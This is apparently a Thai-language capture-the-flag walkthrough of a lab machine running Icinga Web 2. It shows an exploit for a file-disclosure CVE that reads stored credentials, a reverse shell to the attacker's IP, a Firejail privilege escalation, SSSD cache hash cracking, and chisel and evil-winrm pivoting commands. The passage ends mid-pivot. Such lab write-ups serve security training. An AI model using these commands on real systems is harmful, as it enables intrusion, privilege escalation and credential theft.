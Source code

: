 ## Scan Host 

```bash
nmap -Pn -sCV -p- 10.10.11.205
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-14 12:57 +07
Nmap scan report for 10.10.11.205
Host is up (0.032s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.89 seconds

```

ตวจสอบหน้า Website จะพบว่ามีการใช้ http://icinga.cerberus.local:8080/icingaweb2 

![](./IMG/001.png)

จะเห็นได้ว่ามีการใช้งาน App ชื่อ icinga ซึ่งถ้าดูจะเป็นเวอร์ชัน 2 และมีช่องโหว่ที่ใช้ได้อยู่จำนวน 3  ช่องโหว่ตามภาพด้านล่าง 

![](./IMG/002.png)

## Host Exploit 
เราสามารถใช้ช่องโหว่ Icinga Web 2.10 - Arbitrary File Disclosure ซึ่งเป้น CVE-2022-24716 
![](./IMG/003.png)

หากตรวจสอบไฟล์ที่สำคัญของแอพดังกล่าวจะพบว่ามีไฟล์ที่สำคัญตามลิ้งนี้ https://icinga.com/docs/icinga-web/latest/doc/03-Configuration/ 

![](./IMG/004.png)


จากนั้นลองตรวจสอบแต่ละไฟล์จะพบว่ามีข้อมูลสำคัญอยู่ภายใต้ resources.ini 
```python
python3 51329.py http://icinga.cerberus.local:8080/icingaweb2/ /etc/icingaweb2/resources.ini
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"
```


![](./IMG/005.png)

## Exploit to Reverse shell using cve 
```python
python3 51586.py -u 'http://icinga.cerberus.local:8080' -U 'matthew' -P 'IcingaWebPassword2023'  -i '10.10.14.9'  -p 443
```


![](./IMG/006.png)
![](./IMG/007.png)


## Priv Escalation 

```bash
find / -type f -perm -u=s -ls 2>/dev/null
```

![](./IMG/008.png)

Firejail Local Privilege Escalation 
https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25


```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
chmod +x fire.py
./fire.py
```

![](./IMG/009.png)

จากนั้นเปิดอีก terminal เพื่อรันสิทธิ ROOT

```bash
su -
```

**System Security Services Daemon (SSSD)** เป็นบริการระบบความปลอดภัยที่ออกแบบมาเพื่อช่วยให้ระบบ Linux สามารถ **เข้าถึงข้อมูลผู้ใช้และข้อมูลการรับรองตัวตนจากระบบจัดการผู้ใช้แบบรวมศูนย์ (centralized authentication systems)** โดยฟีเจอร์ที่น่าจะมีช่องโหว่ของ SSSD คือ**การแคชข้อมูลผู้ใช้และกลุ่ม (User and Group Caching):** - เก็บข้อมูลผู้ใช้และกลุ่มไว้ในเครื่องเพื่อให้สามารถเข้าสู่ระบบได้แม้เมื่อเซิร์ฟเวอร์ต้นทางไม่ว่างหรือขาดการเชื่อมต่อ โดยเก็บไว้อยู่ภายใต้ path 

```bash
/var/lib/sss/db/
```

เราสามารถตรวจสอบไฟล์แต่ละไฟล์ซึ่งเป็น Cache ของ sssd ซึ่งภายใต้ไฟล์ cache_cerberus.local.ldb เราตรวจพบข้อมูลที่มีความน่าสนใจ ซึ่งเป็นค่า hash ของระบบ

![](./IMG/010.png)


```bash
echo '$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0' > hash

john hash  --wordlist=/usr/share/wordlists/rockyou.txt 
```

![](./IMG/012.png)

จากภาพเราจะได้รหัสผ่านดังต่อไปนี้ 
```bash
matthew:147258369
```


## Privot 

ติดตั้ง Ligolo 

```bash
chisel server --port 1111 --reverse # Attacker host
./chisel client 10.10.14.9:1111 R:5985:172.16.22.1:5985 # Victim host
```

![](./IMG/013.png)

จะเห็นได้ว่า user ดังกล่าวสามารถใช้บน winrm ได้ จากนั้นรัน 

```bash
evil-winrm -i 127.0.0.1 -u matthew -p '147258369'
```

จากนั้นทำการ Forward Port ของ ManageEngine ไปที่ port 9251 
```
./chisel server --port 2222 --reverse # Attacker host

.\chisel.exe client 10.10.14.9:2222 R:socks # Victom host
```
